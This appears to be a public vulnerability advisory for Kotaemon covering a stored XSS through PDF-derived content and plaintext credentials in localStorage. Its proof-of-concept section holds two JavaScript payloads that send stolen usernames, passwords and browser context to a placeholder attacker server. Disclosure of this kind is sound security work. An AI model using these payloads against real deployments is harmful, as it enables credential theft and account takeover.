








# Kotaemon CVE-2025-56526 & CVE-2025-56527 Public Disclosure

> Stored Cross-Site Scripting in the Kotaemon Information Panel combines with plaintext credential storage in `localStorage`, enabling full session compromise from a single malicious PDF upload.

## Executive Summary
- **Affected Product / Versions**: Kotaemon `<= 0.11.0` (including commit [37cdc28](https://github.com/Cinnamon/kotaemon/commit/37cdc28ceb46e505d25221584daf1fe61e26b2cc))
- **Vulnerabilities**:
  - `CVE-2025-56526` – Stored XSS via unsanitized PDF content rendering
  - `CVE-2025-56527` – Plaintext username/password storage in `localStorage`
- **Required Privileges**: Authenticated user with document upload permissions
- **Impact**: Credential theft, persistent session hijacking, UI defacement of LLM outputs, downstream compromise of user trust

## CVE Overview
| CVE ID | Weakness | CWE | Primary Impact |
| --- | --- | --- | --- |
| CVE-2025-56526 | Stored XSS via PDF-derived HTML | CWE-79 | Arbitrary JavaScript execution, data exfiltration |
| CVE-2025-56527 | Plaintext credential storage | CWE-922 | Credential disclosure, session hijacking |

## Technical Analysis
### 1. Unsanitized PDF Content Rendering (Stored XSS)
PDF extraction results (text, table markup, image metadata) are injected into the DOM without escaping. A malicious PDF can therefore ship arbitrary HTML/JS that runs whenever the Information Panel or Reasoning views render `retrieved_content`.

Affected code paths include:
- `libs/ktem/ktem/utils/render.py` (`Render.table`, `Render.image`, `Render.collapsible_with_header`)
- `libs/ktem/ktem/index/file/ui.py` (`table` / `image` rendering)
- `libs/ktem/ktem/reasoning/simple.py` and `libs/ktem/ktem/reasoning/react.py`
- `libs/kotaemon/kotaemon/indices/qa/format_context.py`

### 2. Plaintext Credential Storage in `localStorage`
`libs/ktem/ktem/pages/login.py` together with `libs/ktem/ktem/assets/js/main.js` stores and retrieves raw credentials directly from `localStorage`:

```javascript
setStorage('username', usn);
setStorage('password', pwd);
const username = getStorage('username', '');
const password = getStorage('password', '');
```

Any JavaScript executed through the XSS vector can immediately read these values, resulting in reliable credential theft and long-lived account takeover.

## Proof of Concept
1. Embed the payload below into a PDF (for example, inside an image `alt` attribute or text object):
```html
 {
  const u = localStorage.getItem('username');
  const p = localStorage.getItem('password');
  if (u && p) {
    new Image().src='https://[ATTACKER-SERVER]?d=' + btoa(`id=${u}&pw=${p}`);
  }
})();
">
```
2. Upload the PDF and open it inside Kotaemon's Information Panel. The embedded script runs inside the application origin and exfiltrates credentials.
3. An upgraded payload additionally steals browsing context to aid targeting:
```html
 {
  const payload = btoa(
    `id=${localStorage.getItem('username')}` +
    `&pw=${localStorage.getItem('password')}` +
    `&url=${location.href}&origin=${location.origin}` +
    `&ua=${navigator.userAgent}`
  );
  new Image().src='https://[ATTACKER-SERVER]?d=' + payload;
})();
">
```

## Impact
- **Stored XSS**: Arbitrary JavaScript runs whenever the malicious PDF is viewed.
- **Credential Theft**: Plaintext `username`/`password` pairs are exposed to any injected script.
- **Persistent Session Hijacking**: Attackers can reuse credentials to impersonate users, access projects, or poison LLM outputs.
- **LLM Output Integrity Loss**: Users can no longer trust Information Panel or reasoning results, enabling sophisticated social-engineering chains.

## Extended Threat Analysis

Kotaemon is often deployed in local or enterprise environments where users upload sensitive internal documents. Because PDF-derived content is inserted into the DOM without sanitization, an attacker can disguise a malicious payload inside a normal-looking business document.

When the victim uploads and views this document, the hidden JavaScript executes automatically, stealing credentials from localStorage and exposing private chat logs and document contents.

Although the trigger appears user-initiated, this is not self-XSS.
The root cause is server-side failure to sanitize HTML extracted from uploaded files, enabling Stored XSS inside trusted UI components.

As a result, a single malicious PDF can lead to full account compromise in realistic social-engineering scenarios.


## Recommendations
1. Escape or sanitize all PDF-derived content prior to rendering (e.g., `html.escape`, DOMPurify, or Trusted Types for DOM sinks).
2. Enforce a Markdown/HTML whitelist pipeline so only approved tags/attributes reach the browser.
3. Prohibit client-side storage of raw credentials; use HTTP-only secure cookies or short-lived session tokens instead.
4. Deploy CSP (`script-src 'self'`) and Trusted Types to shrink the DOM XSS attack surface.
5. Add regression tests for PDF ingestion paths and define an LLM output-handling policy that treats retrieved content as untrusted.

## Evidence (`screenshots/`)
- 
- 
- 
- 
- 
- 
- 
- 

## Disclosure Statement
This public advisory follows industry-standard responsible disclosure practices:
- More than 90 days were provided to the vendor to respond and patch.
- Multiple follow-up attempts were made with no resolution or remediation plan provided.
- CVE identifiers (CVE-2025-56526, CVE-2025-56527) were officially assigned by MITRE.
- A final notice was sent 30 days before public disclosure.
- Public disclosure now proceeds to protect end users and reduce exposure to unpatched risks.

### Recommendations for Users
Users of Kotaemon (<= 0.11.0) should consider the following until a security fix becomes available:
- Monitor the official repository for upcoming security patches.
- Avoid processing untrusted documents.

## Disclosure Timeline
- 2025-07-14: Initial vulnerability report submitted to Kotaemon team.
- 2025-08-12: First follow-up; vendor acknowledged being busy and requested a deadline.
- 2025-09-12: Second follow-up with detailed report and PoC.
- 2025-09-13: Final follow-up; no further response.
- 2025-10-14: Final notice sent indicating intent to publicly disclose.
- 2025-11-14: Public disclosure of CVE-2025-56526 and CVE-2025-56527.

## Credits & Contact
- **This report was prepared by HanTul.** (formerly of Team 404 Not Found 퇴근, WhiteHat School 3rd Cohort (WHS3), South Korea).
- Contact: `bluevenus02@gmail.com`
- GitHub: [@HanTul](https://github.com/HanTul)
